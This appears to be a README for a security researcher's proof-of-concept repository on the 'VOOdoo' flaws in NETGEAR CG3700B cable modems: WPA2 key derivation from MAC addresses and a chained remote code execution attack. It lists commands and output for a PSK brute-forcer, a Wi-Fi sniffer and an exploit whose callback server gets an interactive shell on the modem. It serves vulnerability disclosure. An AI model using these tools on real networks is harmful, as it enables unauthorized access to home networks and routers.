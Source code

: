 # VOOdoo - Research Notes

![lol](voodoo_logo.png)

This repository holds proof-of-concepts for the VOOdoo vulnerabilities found in NETGEAR CG3700B cable modems provided by VOO to its subscribers.

These modems use a weak algorithm to generate WPA2 pre-shared keys, allowing an attacker in reception range of a vulnerable modem to derive the WPA2 pre-shared key from the access point MAC address. The modems are also vulnerable to remote code execution through the web administration panel. The exploit is possible due to usage of default credentials and programming errors in multiple form handlers.

By chaining these vulnerabilities an attacker can gain unauthorized access to VOO customers LAN (over the Internet or by being in reception range of the access point), fully compromise the router, and leave a persistent backdoor allowing direct remote access to the network.

### SSID generator

Generate SSID from MAC address similarly to Netgear CG3700B devices.

```
python3 genssid.py a4:2b:8c:a0:c0:b8
VOO-984071
```

### WPA2 PSK Generator

The *wifi/brutepsk.py* script will generate a list of valid WPA2 PSK candidates by using
a list of observed Netgear OUIs in Wigle and validating them by using the provided
SSID as an oracle.

With the current list, you'll get around 120 candidates for a given SSID.

```
time python3 brutepsk.py VOO-984071
--snip--
[+] Potential candidate found (MAC: 0x001E2AFE426B) - PXBXLGRG
[+] Potential candidate found (MAC: 0x001E2AFEA994) - XXDOHLZZ
[+] Potential candidate found (MAC: 0x001F330498FC) - DOPZHBPA
--snip--
python3 brutepsk.py VOO-984071  285,18s user 0,03s system 99% cpu 4:45,26 total
```

### Network Sniffer with Automatic PSK Guesser

**This no longer works since the patch rollout**

You need to put your wireless interface in monitor mode and start scanning for devices around you using airodump:

```
sudo airmon-ng wlp6s
sudo airodump-ng -i wlp6s0mon
```

While doing so, launch the sniffer script and it will list vulnerable access points:

```
sudo python sniffer.py
AP MAC: 20:0c:c8:16:76:dc with SSID: VOO-111317 (PSK: VNCKUFXQ)
```

### Remote Command Execution (local network)

The callback is made to 192.168.100.2 so you need to set that address explicitly:

```
ip addr add 192.168.100.2/24 dev eno1
ip r add 192.168.100.1 dev eno1 src 192.168.100.2
```

Launch the callback server:

```
python2.7 server.py
```

Run the exploit:

```
python2.7 -W ignore exploit.py
[+] Loading anti-csrf token
[+] Got anti-csrf token (1756101231)
[+] Triggering exploit.
```

If everything worked as expected:

```
python2.7 server.py 
[+] Trying to bind to 0.0.0.0 on port 5504: Done
[+] Waiting for connections on 0.0.0.0:5504: Got connection from 192.168.100.1 on port 1024
[+] Got connection. Sending payload.
[*] Switching to interactive mode
$ help
!               ?               REM             call            cd             
dir             find_command    help            history         instances      
ls              man             pwd             sleep           syntax         
system_time     usage           
----
ClearCmCert     binarySfid      bpiShow         cfg_hex_show    cfg_tlv_show   
ch_state        clear_image     cm_ctrl         comp_mac_to_phy comp_phy_to_mac
copy_image      dbc_msg_inject  dload           dsdiag          dsx_show       
event_censor    goto_ds         goto_us         igmpShow        ip_initialize  
ip_show         l2vpn_show      link_state      log_messages    map_debug      
mdd_modify      mdd_sets_show   modem_caps      nrg_mgmt        
override_ucd_max_burst          publish_event   rate_shaping_enable            
reseq_dsid_regress_test         rng_rsp         scan_stop       showFlows      
state           stop_download   ucdShow         ucddiag         up_dis         
us_phy_oh_show  us_target_mset  usdiag          
----
[dsxTest] [propane_ctl] 
```

### Remote Command Execution (Internet)

**This no longer works over the Internet since VOO applied mitigations (disabling UPnP, filtering DNS rebinding).** 

However, everything is available in index.html, and exploit.js if you want to study the code.


## Video Demo

![rce demo](voodoo_rce_demo.mp4)

## References

- VOOdoo - Remotely Compromising VOO Cable Modems - [https://quentinkaiser.be/security/2021/03/09/voodoo/](https://quentinkaiser.be/security/2021/03/09/voodoo/)
